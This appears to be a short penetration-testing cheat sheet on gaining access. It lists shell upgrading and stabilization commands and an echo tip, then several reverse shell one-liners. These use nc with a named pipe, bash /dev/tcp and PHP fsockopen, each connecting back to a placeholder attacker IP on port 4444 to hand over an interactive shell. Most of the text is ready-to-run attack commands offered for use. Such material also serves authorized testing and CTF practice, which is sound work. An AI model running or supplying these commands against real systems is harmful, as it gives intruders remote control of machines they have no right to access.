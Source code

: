 # Exploit (Gaining Access)

## Reverse Shell

### Shell upgrading

```bash
/usr/bin/script -qc /bin/bash /dev/null # works almost all the time

python3 -c 'import pty;pty.spawn("/bin/bash")' # only if python is installed
```

### Shell Stabilization
```bash
export TERM=xterm # this will give us access to term commands such as clear
Ctrl + Z # background the shell
stty raw -echo; fg # This does two things: 1. it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
```

### Write multiple lines in a file with `echo`

```bash
echo "line 1
line 2" >> file.txt
```

### BASH reverse shell one line
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] 4444 >/tmp/f

bash -c "bash -i >& /dev/tcp/[ip]/4444 0>&1" # possibility not to use 'bash -c' at the beginning

nc [IP] [PORT]

php -r '$sock=fsockopen("[IP]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
